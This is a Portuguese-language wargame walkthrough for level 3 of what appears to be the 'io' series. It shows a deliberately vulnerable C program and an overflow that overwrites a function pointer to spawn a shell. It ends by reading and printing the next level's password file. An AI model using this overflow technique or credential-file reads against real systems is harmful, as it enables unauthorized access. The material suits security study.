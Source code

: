 # ~ Level 03 ~

```
cd /levels
./level3
~NADA ACONTECE...~
ls -la
ls -la
total 576
...
-r-sr-x---  1 level4  level3   5238 Sep 22  2012 level03
-r--------  1 level3  level3    658 Sep 22  2012 level03.c
...
```

Assim como o nível 2, parece que temos o código fonte do level03 disponível.

```
cat level03.c
//bla, based on work by beach

#include <stdio.h>
#include <string.h>

void good()
{
        puts("Win.");
        execl("/bin/sh", "sh", NULL);
}
void bad()
{
        printf("I'm so sorry, you're at %p and you want to be at %p\n", bad, good);
}

int main(int argc, char **argv, char **envp)
{
        void (*functionpointer)(void) = bad;
        char buffer[50];

        if(argc != 2 || strlen(argv[1]) < 4)
                return 0;

        memcpy(buffer, argv[1], strlen(argv[1]));
        memset(buffer, 0, strlen(argv[1]) - 4);

        printf("This is exciting we're going to %p\n", functionpointer);
        functionpointer();

        return 0;
}
```

Desta vez, parece que necessitaremos de certo conhecimento acerca de gerenciamento de memória.

Precisamos de um argumento (argc != 2) e este argumento deve ter mais que 4 caracteres, sendo que o *buffer* suporta no máximo 50 bytes.

Devemos colocar em mente, também, que o software usa *memcpy* e *memset*.

Vamos observar o comportamento do software funcionalmente.

```
./level03 123123123123123
This is exciting we're going to 0x80484a4
I'm so sorry, you're at 0x80484a4 and you want to be at 0x8048474
./level03 123123123123123123123123123123123
This is exciting we're going to 0x80484a4
I'm so sorry, you're at 0x80484a4 and you want to be at 0x8048474
```

Note que mesmo para entradas de tamanhos diferentes, o endereço de memória é o mesmo.

Isto nos informa que necessitaremos de uma abordagem um pouco mais complexa.

O que acontece se estourarmos o buffer?

```
./level03 123123123123123123123123123123123123123123123123123123123123123123123123123123
This is exciting we're going to 0x8043332
Segmentation fault
```

Um SEGFAULT! Note também que o endereço de memória alterou, e isto causou o SEGFAULT.

E se manipularmos nossa string até alcançar o 0x8048474?

```
./level03 12312312312312312312312312312312312312312312312312312312312312312312312312312
This is exciting we're going to 0x8048432
level3@io:/levels$ ./level03 1231231231231231231231231231231231231231231231231231231231231231231231231231
This is exciting we're going to 0x80484a4
I'm so sorry, you're at 0x80484a4 and you want to be at 0x8048474
level3@io:/levels$ ./level03 12312312312312312312312312312312312312312312312312312312312312312312312312319
This is exciting we're going to 0x8048439
level3@io:/levels$ ./level03 1231231231231231231231231231231231231231231231231231231231231231231231231231z
This is exciting we're going to 0x804847a
Win.
sh-4.3$
```

Conseguimos!

```
cat /home/level4/.pass
7WhHa5HWMNRAYl9T
```
